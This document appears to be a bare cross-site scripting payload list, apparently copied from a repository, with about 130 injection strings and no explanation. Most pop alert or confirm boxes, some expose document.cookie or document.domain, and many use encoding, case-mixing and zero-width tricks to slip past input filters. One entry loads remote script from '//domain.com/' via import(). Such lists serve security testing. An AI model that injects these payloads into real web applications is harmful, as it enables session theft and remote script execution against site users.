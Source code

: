 <button%20popovertarget=x>Click%20me</button><img%20onbeforetoggle=alert(1)%20popover%20id=x>XSS
#"><script>alert('XSS')</script>
"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>
<img src=x onerror​=alert(1)>
<svg on =i onload​=alert(domain)
#"><img src=x onerror=alert('XSS')>
"><img/src=%20only=1%20OnErRor=x=alert`XSS`><!--
 ">><plaintext%2Fonmouseover%3Dprompt(1)+><​script>prompt(1)<%2Fscript>
#"><svg onload=alert('XSS')>
#"><iframe src="javascript:alert('XSS')"></iframe>
'"><img src=XSS onerror​=alert()>
#"><body onload=alert('XSS')>
#"><link rel=stylesheet href="javascript:alert('XSS')">
#"><object data="javascript:alert('XSS')"></object>
#"><embed src="javascript:alert('XSS')">
#"><input type="image" src="x" onerror=alert('XSS')>
#"><form><button formaction="javascript:alert('XSS')">Click</button></form>
'"><svg><animate onbegin​=alert('hacked') attributeName=x></svg> 
<a href=javascript​:alert('hacked')>Click Here</a>
<script>eval("al"%2b"ert(1)")</script>
"><script>alert(1)</script><
<IFRAME SRC="javascript​:alert('hacked');"></IFRAME>
<div ng-app> <strong class="ng-init:constructor.constructor('alert('hacked')')()">aaa</strong> </div>
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS​=alert`hacked` //
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
”><sCrIpT>alert(“WHOAMI?”)</ScRiPt>
<img/src/onerror​=alert&#xFEFF;(1337)>
<svg/onload​=&nbsp;alert&#65279;(2)>
'<00 foo="<a%20href="javascript​:alert('XSS-Bypass')">XSS-CLick</00>--%20/
"><SVG/oNlY=1 ONlOAD=confirm(document.cookie)>
<dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>
”><svg/onload=alert(333)>
"><img src=x onerrora=confirm() onerror=confirm(1)>
<Svg On Only=1 Onload=alert(1337)>
"/></script><script>alert(document.cookie)</script>
"><script>alert(document.cookie)</script>
%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E
javascript:alert(document.domain)
<a/+/OnMoUsEOVEr+=+(confirm)(document.domain)>
"><<svg onload=alert&#0000000040document.cookie)>
"><<iframe onx=() onload=(alert)(6)>
<svg><animate%20onend=alert(document.cookie)%20attributeName=x%20dur=1s>
//j%5c%5cjavascript%3aalert(document[.]domain)
"><img src=x onerror=alert(document.domain)>
<svg onload=alert%26%230000000040"1")>
XSS"><body %00 onControl hello onmouseleave=confirm(domain) x>XSS
XSS"><html><select %00 onControl onpointerenter=prompt(domain) hello>
XSS"><input %00 onControl hello oninput=confirm(domain) x>
";alert(document.domain);/
<img src=xss onerror=alert(1)>
%26%2302java%26%23115cript:alert(document.domain)
%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
%22%3E%3Cscript%3Ealert(1)%3C/script%3E
<img src=totallyfake onerror=import(‘//domain.com/‘);//
'-alert(1)-';"-alert(2)-"//"><svg/onload=alert(3)>
;*/'"><img%20src=X%20onerror=CoNfirm(0)>//&/*
<a href="javascript:alert(document.domain)">test.</a> 
'>"><svg/onload=alert(1)>
"><img src=1 onerror=alert(1)> 
<h1/onmouseover=alert(document.domain)>Xss
javascript:alert(1) and "><svg/onload=alert(1)>
<script>alert(1)</script>
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> 
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
<svg onload=confirm(1)>
Java%SCript:alert(0)
<img src=x onerror=alert(1)>
"><button onclick="alert(9+9)">click me</button>
<a href="javascript:alert(1)">Click</a>
<a href="&#01;javascript:alert(1)">Click</a>
<a href="javascript:{ alert`0` }">Click</a>
<a src="google.com" onclick="alert(1)">Click</a>
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>
<body ontouchstart=alert(1)> 
<body ontouchend=alert(1)>   
<body ontouchmove=alert(1)>
